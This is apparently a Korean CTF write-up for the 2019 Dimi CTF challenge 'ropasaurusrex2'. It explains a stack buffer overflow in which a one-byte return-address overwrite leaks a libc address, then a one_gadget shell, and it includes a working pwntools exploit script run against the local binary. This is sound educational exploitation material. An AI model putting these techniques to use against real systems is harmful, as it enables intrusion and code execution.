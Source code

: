 ```yaml
---
title: "2019 Dimi CTF ropasaurusrex2"
date: 2020-1-7
tags: [dimi]
categories: [Dimi]
---
```


Full RELRO, NX, PIE가 걸려있는 바이너리다.

```
[*] '/vagrant/ctfs/ropasaurusrex2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

메인을 보면 buf가 `rbp-0x30` 위치에 있는데 64만큼 입력받으면 리턴까지밖에 덮지 못한다. 근데 입력받은만큼 buf를 write해준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // rax
  char buf; // [rsp+0h] [rbp-30h]

  init();
  read(0, &buf, 64uLL);
  v3 = strlen(&buf);
  write(1, &buf, v3);
  return 0;
}
```

main에서 ret을 보면 `__libc_start_main + 240` 의 주소가 저장되는데 이를 이용해서 1byte overwrite해서 `__libc_start_main + 233` main을 call하는 곳으로 ret해주면 된다.  

그러면 `__libc_start_main + 233` 주소가 leak될 것이고 다시 메인으로 돌아오니까 리턴을 oneshot으로 덮어주면 된다. 

![](https://user-images.githubusercontent.com/32904385/71875041-be753900-3166-11ea-902c-a24dccb592f0.png)

rsp+0x18에는 메인주소가 담겨져있고 주소로 +238에서 call해준다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
e = ELF('./ropasaurusrex2')
p = process('./ropasaurusrex2')
libc = e.libc

payload = 'A'*0x30
payload += 'realsung'
payload += '\x29'

p.send(payload)

libc_base = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00') - (libc.symbols['__libc_start_main'] + 233)
log.info('libc_base : ' + hex(libc_base))

payload2 = 'A'*(0x30)
payload2 += 'realsung'
payload2 += p64(libc_base + 0x45216)

p.send(payload2)

p.interactive()
```



